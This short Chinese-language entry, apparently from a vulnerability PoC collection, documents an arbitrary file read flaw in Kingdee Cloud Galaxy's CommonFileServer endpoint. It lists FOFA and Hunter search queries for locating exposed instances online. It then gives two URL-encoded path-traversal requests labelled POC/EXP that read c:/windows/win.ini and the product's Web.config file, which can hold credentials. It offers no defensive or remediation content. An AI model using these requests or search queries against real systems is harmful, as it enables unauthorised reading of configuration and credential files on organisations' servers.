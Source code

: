 # 金蝶 云星空 CommonFileServer 任意文件读取漏洞

## 网络测绘

fofa: app="金蝶云星空-管理中心"

hunter: app.name="Kingdee 金蝶云星空"

## POC / EXP

```
/CommonFileServer/c%3a%2fwindows%2fwin.ini
/CommonFileServer/C%3A%5CProgram%20Files%20%28x86%29%5CKingdee%5CK3Cloud%5CWebSite%5CWeb.config
```